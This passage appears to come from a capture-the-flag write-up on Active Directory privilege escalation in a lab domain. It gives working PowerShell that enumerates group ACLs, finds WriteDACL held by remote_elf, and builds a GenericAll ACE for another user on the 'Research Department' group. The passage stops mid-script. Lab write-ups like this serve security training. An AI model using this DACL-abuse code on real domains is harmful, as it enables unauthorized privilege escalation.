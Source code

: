 ### Privilege Escalation 
This involves escalating privileges of our user "rflkkildwi".<br>
We do this by adding this user  to "Research Department" AD group leveraging elfu.local\remote_elf.

<b>Find which AD group the user elfu.local\remote_elf has writeDACL permission.</b></br>
Tried with domain admins. This does not have writeDACL permission for remote_elf. <br>
```powershell
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount]) 
```
So, we numerate all the groups to see if something interesting come up. <br>

Get-ADGroup to get all AD groups : <br>
<img src="../../images/hhc2021/image103.png" alt="drawing" width="800px"/><br>
This “Research Department” group looks interesting : <br>
<img src="../../images/hhc2021/image104.png" alt="drawing" width="800px"/>

We see all the Access rules for Research Department and we can see remote_elf has writeDACL permission on that group. <br>
```powershell
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local" 
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```
<img src="../../images/hhc2021/image105.png" alt="drawing" width="800px"/>

<b>Using remote_elf, add "GenericAll" permission for the user "rflkkildwi" to the identified AD group. </b>
```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
```
